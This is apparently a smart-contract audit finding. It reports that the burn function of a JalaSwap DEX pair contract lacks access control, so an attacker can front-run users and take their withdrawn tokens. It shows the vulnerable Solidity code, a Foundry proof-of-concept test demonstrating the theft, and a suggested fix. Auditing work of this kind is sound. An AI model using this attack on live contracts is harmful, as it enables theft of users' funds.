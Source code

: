 Tall Pecan Bird

medium

# Broken access control on JalaPair::burn allows attackers to steal other users tokens

## Summary
The JalaPair::burn function allows anyone to steal user's deposited tokens to JalaPair contract as it does not implement access control of who can call it.
This means that if a user "A" deposits his liquidity tokens (LP) to JalaPair an attacker B could call burn() with his address as arg and receive user's A tokens    

## Vulnerability Detail
The vulnerability exists in JalaPair::burn function because it doesnt restrict who can call burn after some liquidity is deposited, ie, it doesnt keep track of who deposited liquidity tokens.  
Burn function only checks if some user deposited LP tokens and calculate how many token0 and token1 to send to `to` address:    
```js
function burn(address to) external lock returns (uint256 amount0, uint256 amount1) {
    // ... snippet
	// check if some liquidity LP is deposited
    uint256 balance0 = IERC20(_token0).balanceOf(address(this));
    uint256 balance1 = IERC20(_token1).balanceOf(address(this));
    uint256 liquidity = balanceOf[address(this)];
    //... snippet ... 
    // Calculate shares of pool  
    amount0 = (liquidity * balance0) / _totalSupply; // using balances ensures pro-rata distribution
    amount1 = (liquidity * balance1) / _totalSupply; // using balances ensures pro-rata distribution
    if (amount0 == 0 || amount1 == 0) revert InsufficientLiquidityBurned();
    // Burn LP tokens  
    _burn(address(this), liquidity);
    // Sends token0 and token1 to `to` address
    _safeTransfer(_token0, to, amount0);
    _safeTransfer(_token1, to, amount1);
    // ... snippet ...
```
So, an attacker could monitor tx pool to see when a user A sends LP tokens to JalaPair.    
Next attacker could call burn using his address as argument ie burn(attacker) to steal user's A `token0` and `token1` tokens.  

## Impact
The impact of this vulnerability includes:    
1. Stealing tokens of other users   
2. Loss of confidence in JalaSwap contracts  
The following PoC shows an user A depositing LP tokens and attacker call it burn to obtain user shares  
First import console library  
```js
import "forge-std/console.sol";
```   
And include this test in test file JalaPair.t.sol    
```js
    function test_BurnStealLiquidity() public {
        // create address for attacker
        address attacker = makeAddr("attacker");

        // User transfer tokens to JalaPair and mints LP tokens
        token0.transfer(address(pair), 1 ether);
        token1.transfer(address(pair), 1 ether);
        pair.mint(address(this));

        uint256 liquidity = pair.balanceOf(address(this));
        console.log("liquidity = pair.balanceOf(address(this)) -> ", pair.balanceOf(address(this)));

        // User transfer LP Pool tokens to JalaPair to get shares back
        pair.transfer(address(pair), liquidity);

        // Attacker token0 and token1 balance before calling burn without depositing LP tokens
        console.log("token0.balanceOf(attacker) before -> ", token0.balanceOf(attacker));
        console.log("token1.balanceOf(attacker) before -> ", token1.balanceOf(attacker));

        // Attacker call burn with his address without depositing LP tokens before
        vm.prank(attacker);
        pair.burn(address(attacker));

        // Attacker token0 and token1  balance after calling burn
        console.log("token0.balanceOf(attacker) after -> ", token0.balanceOf(attacker));
        console.log("token1.balanceOf(attacker) after -> ", token1.balanceOf(attacker));
    }
```

## Code Snippet
https://github.com/sherlock-audit/2024-02-jala-swap/blob/main/jalaswap-dex-contract/contracts/JalaPair.sol#L185-L207  

## Tool used

Manual Review

## Recommendation  
To mitigate this vulnerability  it is recommended to change the burn process logic.    
Instead of requiring that user send LP tokens first and then call burn, reimplement burn logic to transfer LP tokens from user inside burn function.    
The ProposalFix ensures that stealing tokens is no longer possible using the described scenario    
